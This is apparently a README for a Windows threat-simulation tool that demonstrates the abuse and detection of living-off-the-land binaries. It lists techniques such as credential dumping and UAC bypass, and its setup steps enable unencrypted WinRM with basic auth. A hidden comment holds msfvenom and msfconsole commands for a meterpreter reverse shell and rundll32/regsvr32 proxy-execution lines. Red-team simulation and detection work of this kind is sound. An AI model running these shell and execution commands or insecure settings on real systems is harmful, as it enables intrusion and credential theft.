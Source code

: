 # Build-Your-Own-LOLBins
[![Python 3.x](https://img.shields.io/badge/python-3.10.9-yellow.svg?style=for-the-badge)](https://www.python.org/) 
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

Build Your Own LOLBins (BYOL) is a threat simulation platform used for demonstrating the weaponization and detection
of Living-off-the-Land binaries native to the Windows Operating System. 

## Inspiration
This project is highly inspired by [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) and aims to expand beyond the scope of that by eliminating atomicity in individual test cases and providing flexibility in customization.

## Featues
* LOLBins Chaining
* Self-Cleanup
* Commandline Obfuscation
  * Globufscation Wildcards
  * Character Substitution
* Customizable Payloads
* Custom Templates
* APT Procedural Examples
* MITRE ATT&CK Framework Support

## Installation
The technical requirements of this project are:
* Python 3.10.9
* Windows 10 64-bit (Victim Virtual Machine)
<br>

**NOTE**: BYOL uses Windows Remote Management (WinRM) to communicate with the remote host.

> To enable WinRM on the victim machine:
```
$ winrm quickconfig
$ winrm set winrm/config/service '@{AllowUnencrypted="true"}'
$ winrm set winrm/config/service/auth '@{Basic="true"}'
$ netsh advfirewall firewall add rule name="WinRM-HTTP" dir=in localport=5985 protocol=TCP action=allow
$ Set-NetConnectionProfile -NetworkCategory Private
```

## Technique Coverage
| LOLBins | Variants | Objectives |
|:-----|:---------:|:-----------|
Certutil.exe | 5 | `Download` `ADS` `Encode` `Decode`
Msiexec.exe | 1 | `Execute`
Regsvr32.exe | 3 | `Execute` `AWL Bypass`
Cmstp.exe | 1 | `Execute`
Esentutl.exe | 2 | `ADS` `Credentials Dumping`
Rdrleakdiag.exe | 1 | `Credentials Dumping`
Makecab.exe | 1 | `Conceal`
Extract32.exe | 1 | `Decode`
Reg.exe | 3 | `AWL Bypass` `UAC Bypass`
Verclsid.exe | 1 | `Execute`
Regedit.exe | 1 | `Upload`
Mavinject.exe | 1 | `Execute`
Bitsadmin.exe | 1 | `Download`
Expand.exe | 2 | `Copy` `ADS`
Cscript.exe | 2 | `Execute`
Rundll32.exe | 7 | `Execute` `Download`
Mshta.exe | 3 | `Execute` `Download`
Wuauclt.exe | 1 | `Execute`
Eventvwr.exe | 1 | `UAC Bypass`
Pcalua.exe | 2 | `Execute`
Wmic.exe | 3 | `Execute`
Cmd.exe | 1 | `Execute`
Powershell.exe | 4 | `Execute`

## To-Do
- [X] Export Report + JSON
- [ ] ChatGPT Source Code Review
- [ ] WinRM Exceptions
- [ ] self.client_address[0]
<!-- 
**PRODUCTION DEPLOYMENT:**
```
$ & c:/Users/Wesley/Documents/BYOL/venv/Scripts/Activate.ps1
env> python manage.py runserver
env> python manage.py runserver --insecure
env> python manage.py makemigrations
env> python manage.py migrate
env> python manage.py celery
env> python -m pip install pywinrm
```

## Usage

## Limitations
* Use Local Administrator Account
* Recommended to Disable Antivirus
* Recommended to use Cleanup with ErrorLevel
* Recommended to put Cleanup before Verification for accurate result
* Require user to manually close certain GUI Error Box so that scan can continue especially when antivirus is enabled (Rundll32)
* Does not recommend customization, although available
* All command behind an ampersand "&" will be passed into cmd.exe

## CSS Components
* CSS + HTML + jQuery + Ajax
* Bootstrap
  * Select2
  * Alerts
  * Cards
  * Accordion + Collapse
  * Offcanvas + Backdrop
  * Table + DataTable
  * Breadcrumb
* Celery + Redis

## Note
```
IF NOT EXIST %TEMP%\byol.dll EXIT 2
Start-Process regsvr32 $env:TEMP\byol.dll

msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.127.131 LPORT=4444 -f csharp
sudo msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_http;set LHOST 192.168.127.131;set LPORT 4444;run -j"
(for /f "tokens=5" %a in ('netstat -ano ^| find ":4444" ') do taskkill /f /pid %a)

regasm
regsvcs
rundll32.exe advpack.dll, #+12 calc.exe
rundll32.exe zipfldr,RouteTheCall calc.exe
rundll32.exe url,OpenURL file://c:\windows\system32\calc.exe
rundll32.exe url.dll,FileProtocolHandler calc.exe
```
 -->
